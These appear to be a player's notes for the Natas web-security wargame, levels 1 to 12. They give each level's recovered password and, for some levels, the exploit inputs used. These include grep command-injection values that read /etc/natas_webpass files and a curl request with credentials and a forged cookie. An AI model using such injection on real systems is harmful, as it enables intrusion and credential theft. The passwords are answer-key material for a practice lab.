 #### Level1
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

#### Level2
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

#### Level3
* natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

#### Level4
* natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

#### Level5
* natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

#### Level6
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

#### Level7
* /etc/natas_webpass/natas8
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

#### Level8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

#### Level9
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

#### Level10
* curl -X GET "http://127.0.0.1:8001/level9.php?needle=-A+1+level1"
* grep -P '\d{4}' file.txt
* grep -i ; cat /etc/natas_webpass/natas10 file.txt
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#### Level11
* grep -i $ cat /etc/natas_webpass/natas11 dictionary.txt
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

#### Level12
* curl -u natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK -H "Cookie: data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK" -X GET "http://natas11.natas.labs.overthewire.org/"
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3



